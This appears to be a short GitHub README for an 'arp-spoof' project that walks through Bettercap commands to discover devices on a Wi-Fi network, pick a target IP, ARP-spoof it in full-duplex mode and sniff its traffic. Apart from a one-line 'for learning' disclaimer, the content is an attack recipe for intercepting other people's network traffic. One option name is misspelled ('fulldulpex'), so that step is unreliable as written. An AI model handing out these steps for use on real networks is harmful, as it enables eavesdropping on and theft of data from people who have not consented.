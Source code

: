 # arp-spoof
Important : This code juste for learning  : This code get information for other {ip,......} and how choice targets and attking

Here’s a description of how to use the commands:

Using Bettercap for Wi-Fi Targeting
Start Bettercap
1  :  Run the following command to view help documentation and ensure Bettercap is installed properly:


                sudo bettercap help
2 : Enable Network Probing
Use this command to activate network probing and discover devices on the network:

                net.probe on
3  : View Discovered Network Devices
Display a list of devices detected during network probing:

                net.show
4 : Enable ARP Spoofing
        Set ARP spoofing to full-duplex mode for bidirectional packet interception:
        
       1)         set arp.spoof.fulldulpex true
       
       Specify the target device's IP address for ARP spoofing :
       
       2)        set arp.targets <TARGET_IP>
       
       Activate ARP spoofing to intercept traffic between the router and the target:
       
       3)        arp.spoof on

5  :  Activate Packet Sniffing

Enable network sniffing to capture and analyze packets from the targeted device:

              net.sniff on
              




